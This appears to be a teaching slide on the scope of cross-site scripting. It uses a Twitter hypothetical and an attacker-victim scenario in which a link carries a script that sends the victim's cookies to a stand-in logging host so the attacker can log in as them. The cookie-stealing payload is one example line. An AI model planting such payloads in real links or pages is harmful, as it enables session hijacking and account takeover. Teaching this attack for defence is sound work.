

# XSS Scope
Valuable information can be stored client-side
Cookies, Page Contents
Imagine if twitter had this vulnerability
Everyone who views a malicious tweet instantly follows attacker on twitter
Attacker
Victim
Hey check out my cool note! http://example.com/view?message=<script>fetch(“cookie-logger.com?c=” +document.cookie)</script>

*Clicks on link*
*Browser sends attacker victim’s cookies*
*Attacker logins into victim’s example.com account using cookies*